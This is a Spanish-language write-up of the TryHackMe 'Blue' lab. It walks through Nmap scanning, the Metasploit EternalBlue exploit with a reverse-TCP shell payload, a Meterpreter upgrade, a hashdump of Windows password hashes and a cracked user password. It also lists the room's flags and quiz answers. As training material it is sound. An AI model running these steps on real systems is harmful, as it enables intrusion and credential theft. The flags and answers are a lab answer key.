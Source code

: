 # Máquina Blue 

Dificultad --> Facil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Blue**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'



![image](https://github.com/user-attachments/assets/b08829a0-8fb4-4231-a035-a8db5d887555)


## 1.Reconocmiento

Realizamos un escaneo de puertos con la herramienta Nmap para verificar los puertos abiertos

    sudo nmap  -sV --vv --script vuln 10.10.77.95

![image](https://github.com/user-attachments/assets/ed0458c6-4a84-43cf-8303-c80fdb6d0f61)


![image](https://github.com/user-attachments/assets/e12ca835-cf83-438b-af81-2e80e3bb3a23)


![image](https://github.com/user-attachments/assets/ff9dbd72-34c6-4bd4-bb3a-f16ed6c70e35)


### Resumen de la Información Obtenida

|IP           | Sistema OPerativo    | Puertos/Servicios              | 
|:----------: |:--------------------:| :-----------------------------:| 
| 10.10.77.95 | Windows 7            | 135 msrpc Windows RPC           |
|             |                      | 139 Netbios-ssn                 |
|             |                      | 445 microsoft-ds Windows 7 - 10 |
|             |                      | 3389 ssl/ms-wbt-server          |
|             |                      | 49152-49154 msrpc Windows RPC   |
|             |                      | 49158-49159 msrpc Windows RPC   |


## 2. Análisis de Vulnerabilidades / Debilidades

Buscamos el exploit en metasploit y elegimos la opción exploit/windows/smb/ms17_010_eternalblue

![image](https://github.com/user-attachments/assets/0263dd41-45d7-483f-ac12-3cc07f0c69bb)

Ahora aplicamos el comando

    show options

Y modificamos los parametros correspondientes

![image](https://github.com/user-attachments/assets/b73b2b49-c6a1-43ca-911e-6d3e87c161cd)


Luego vamos a modificar el payloads

    set payload windows/x64/shell/reverse_tcp


![image](https://github.com/user-attachments/assets/233898d9-4112-4d58-8ddc-9ab4384fd9fe)


## 3. Explotación


Una vez configurado todo procedemos a ejecutar run, al ya tener acceso vamos a ejecutar Ctrl+z para colocar en segundo plano esta sesión


![image](https://github.com/user-attachments/assets/ee036e90-ccbd-4084-a866-e3c9bc72e81d)


## 4. Escalación de privilegios


Ahora procedemos a escalar privilegios y vamos a busca una shell meterpreter

    search shell_to_meterpreter


![image](https://github.com/user-attachments/assets/23da4d99-d80c-4f8f-aff4-530eb7a8ae9e)



ejecutamos el comando:

    use 0

Una vez elegido procedemos a ejecutar 

    show options 

Para ver los parámetros a modificar


![image](https://github.com/user-attachments/assets/24db7c16-3ab6-4e48-ac37-0a1a765b03bd)


Modificaos la sesión y el Lhost


![image](https://github.com/user-attachments/assets/6b25c583-40e3-4935-9fd8-41fea60896d4)


Ejecutamos nuevamente run y luego colocamos sessions -i 2 porque nos indica que la sesión de meterprter es la sesión 2


![image](https://github.com/user-attachments/assets/b5edab97-06b5-400e-9a81-e7fed35388ca)


Ejecutamos el comando 

    hashdump

Para visualizar los hash de los usuarios de windows


![image](https://github.com/user-attachments/assets/5a663a93-e909-4a6d-8f8d-95de699b63a7)


Codificamos el hash de jon:  alqfna22


![image](https://github.com/user-attachments/assets/eb8dd35b-bf30-45ca-965c-fce9d0e973ab)



ahora ejecutamos el comando shell y nos vamos al directorio C en búsqueda de la bandera 1 🚩

flag{access_the_machine}

![image](https://github.com/user-attachments/assets/5433f494-8509-4df5-bce3-18c1de55e04b)


Siguiendo las pistas que nos indican en TryHackMe nos vamos a los siguientes directorios y conseguimos la bandera 2 🚩


![image](https://github.com/user-attachments/assets/11a2035d-4dc6-4707-834b-eeec454935d3)


Vemos el contenido de la bandera 2🚩 : flag{sam_database_elevated_access}


![image](https://github.com/user-attachments/assets/e9947b6d-c9c2-4dcc-b8d9-529f31888f10)


Continuamos las pistas que nos indican en TryHackMe nos vamos a los siguientes directorios y conseguimos la bandera 3 🚩


![image](https://github.com/user-attachments/assets/e9b0899b-39bd-4842-b0fd-c36ba838cb65)


Vemos el contenido de la bandera 3 🚩: flag{admin_documents_can_be_valuable}


![image](https://github.com/user-attachments/assets/f66a8600-5180-441d-8631-2e896d0f7b11)



## 4.Banderas 🏁

| flag1.txt | flag{access_the_machine               |
|:---------:|:-------------------------------------:|
| flag2.txt | flag{sam_database_elevated_access}    |
| flag3.txt | flag{admin_documents_can_be_valuable} |


## 5.Extra 🚨

### Acá las respuesta del cuestionario de TryHackMe 


- How many ports are open with a port number under 1000?

3

- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

ms17-010

- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

exploit/windows/smb/ms17_010_eternalblue

- Show options and set the one required value. What is the name of this value? (All caps for submission)

RHOSTS

- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

post/multi/manage/shell_to_meterpreter

- Select this (use MODULE_PATH). Show options, what option are we required to change?

SESSION

- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

Jon

- Copy this password hash to a file and research how to crack it. What is the cracked password?

alqfna22

- Flag1? This flag can be found at the system root.

flag{access_the_machine}

- Flag2? This flag can be found at the location where passwords are stored within Windows.

flag{sam_database_elevated_access}

- flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.



















































































